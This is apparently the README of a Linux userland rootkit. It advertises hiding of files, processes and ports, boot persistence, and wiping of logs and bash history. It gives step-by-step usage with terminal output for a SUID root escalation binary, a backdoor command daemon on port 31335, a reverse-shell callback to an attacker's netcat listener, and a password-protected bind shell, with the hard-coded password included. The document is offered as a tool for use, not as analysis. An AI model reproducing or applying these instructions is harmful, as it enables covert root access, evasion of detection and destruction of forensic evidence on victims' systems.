 <h2>BDS Linux Userland Rootkit</h2>
<br>
Developed by : Antonius
<br>
Website : www.bluedragonsec.com
<br>
Github : https://github.com/bluedragonsecurity
<br>
Twitter : https://twitter.com/bluedragonsec
<p>
<h3>Features : </h3>
<ul>
  <li>Hide files and directories</li>
  <li>Hide process</li>
  <li>Hide bind shell port, bds daemon port and reverse shell port from netstat</li>
  <li>Rootkit persistence to survive after reboot</li>
  <li>clean logs and bash history during installation</li>
</ul>
</p>

<p>
<h3>Installation</h3>
<br>
In case you have installed gcc, install it by running the installer script:
<pre>
./install.sh direct
</pre>
<br>
In case you haven't installed gcc, install it by running the installer script :
<pre>
./install.sh
</pre>
</p>

<p>
<h3>Using the Rootkit</h3>
</p>

<p>
<h4>Privilege Escalation</h4>
<br>
Once the rootkit installed on the system, in case you lost root privilege, you can regain root privilege by typing :
<br>
<b>/opt/bds_elf/bds_suid</b>
<br>
<pre>
robotsoft@robotsoft:~$ id
uid=1000(robotsoft) gid=1000(robotsoft) groups=1000(robotsoft),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),120(lpadmin),999(sambashare)
robotsoft@robotsoft:~$ /opt/bds_elf/bds_suid
root@robotsoft:~# id
uid=0(root) gid=0(root) groups=0(root),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),120(lpadmin),999(sambashare),1000(robotsoft)
root@robotsoft:~# 
</pre>
</p>

<p>
<h4>Using the Rootkit Daemon</h4>
<br>
Rootkit built in daemon is listening on port 31335.
Using the rootkit built in daemon, you can issue a reverse shell connection and executing linux command on target machine (which you have installed rootkit) remotely.
  To connect  to rootkit daemon, open your terminal and type :
  <pre>
  nc "target ip" 31335
  </pre>
<br>
Example : 
<br>
You have installed bds userland on ip address 192.168.43.36 , open terminal and type:
<pre>
robotsoft@robotsoft:~$ nc 192.168.43.36 31335
CMD :
</pre>
Type any linux command in cmd prompt
<pre>
robotsoft@robotsoft:~$ nc 192.168.43.36 31335
CMD :id
uid=0(root) gid=0(root) groups=0(root)
CMD :uname -a
Linux robotsoft 5.11.0-49-generic #55-Ubuntu SMP Wed Jan 12 17:36:34 UTC 2022 x86_64 x86_64 x86_64 GNU/Linux
CMD :pwd
/
CMD :
</pre>    
</p>

<p>
<h4>Activating Reverse Shell</h4>
<br>
<br>
To activate reverse shell, you need to set up a port listener using netcat on port 31337, then connect to bds daemon on your target server (with rootkit installed) on port 31335.
<br>
On your machine, open terminal and type:
<br>
<pre>
nc -l -p 31337 -v
</pre>  
Open another terminal tab and connect to target server on port 31335 :
<pre>
nc server ip 31335
then type : 
/opt/bds_elf/bds_bc "your ip address"
</pre>  
Wait a few seconds and you will get reverse shell port connection from your target server.
<br>
Example :
<br>
Server ip address with rootkit installed is at 192.168.43.36, your local machine ip is at 192.168.43.230.
Open terminal on your local machine and set up port listener on port 31337:
<pre>
  robotsoft@robotsoft:~$ nc -l -p 31337 -v
  Listening on 0.0.0.0 31337
</pre>
Open another terminal and connect to daemon on target machine (which you have installed rootkit) :
<pre>
robotsoft@robotsoft:~$ nc 192.168.43.36 31335
CMD :/opt/bds_elf/bds_bc 192.168.43.230
CMD :
</pre>  
Back on your previous netcat listener, you will receive a reverse shell connection : 
<pre>
root@robotsoft:~# nc -l -p 31337 -v
Listening on 0.0.0.0 31337
Connection received on 192.168.43.36 42012
Linux robotsoft-virtualbox 6.2.0-20-generic #20-Ubuntu SMP PREEMPT_DYNAMIC Thu Apr  6 07:48:48 UTC 2023 x86_64 x86_64 x86_64 GNU/Linux
id
uid=0(root) gid=0(root) groups=0(root)
uname -a
Linux robotsoft-virtualbox 6.2.0-20-generic #20-Ubuntu SMP PREEMPT_DYNAMIC Thu Apr  6 07:48:48 UTC 2023 x86_64 x86_64 x86_64 GNU/Linux
</pre>
</p>
<p>
<h4>Connecting to Bind Shell Port</h4>
<br>
Bind shell port on server (which you have installed rootkit) is at port 31337, the password is <b>bluedragonsec</b></b>.
You can connect to bind shell port using netcat :
<pre>
nc "server ip address" 31337
then type the password : bluedragonsec  
</pre>
Example :
<br>
Server ip address (with bds userland rootkit installed) is at 192.168.43.36.
<pre>
robotsoft@robotsoft:~$ nc 192.168.43.36 31337
Password :bluedragonsec
Linux robotsoft-virtualbox 6.2.0-20-generic #20-Ubuntu SMP PREEMPT_DYNAMIC Thu Apr  6 07:48:48 UTC 2023 x86_64 x86_64 x86_64 GNU/Linux
id
uid=0(root) gid=0(root) groups=0(root)
uname -a
Linux robotsoft-virtualbox 6.2.0-20-generic #20-Ubuntu SMP PREEMPT_DYNAMIC Thu Apr  6 07:48:48 UTC 2023 x86_64 x86_64 x86_64 GNU/Linux
</pre>
</p>

<p>
<h4>Hiding Files and Directories</h4>
<br>
To hide file and directory just give prefix bds_ to file name and directory name
</p>

<b>How to Clean Logs and Bash History ?</b>
<br>
Before running installation script, add username to usernames_to_clear_logs.txt in new line, example:
<pre>
root
robotsoft
</pre>
User logs will be cleaned during rootkit installation
</p>


<p>
<h4>Process Hiding</h4>
<br>
This rootkit hides bind shell process, reverse shell process and rootkit built-in daemon process.
</p>

<p>
<h4>Port Hiding</h4>
<br>
This rootkit hides bind shell port, reverse shell port and rootkit built-in daemon port.
</p>

<p>
<b>Persistence</b>
<br>
  The rootkit is activated every time the system starts up. After the reboot, wait for 2 minutes, the rootkit will be activated.
</p>


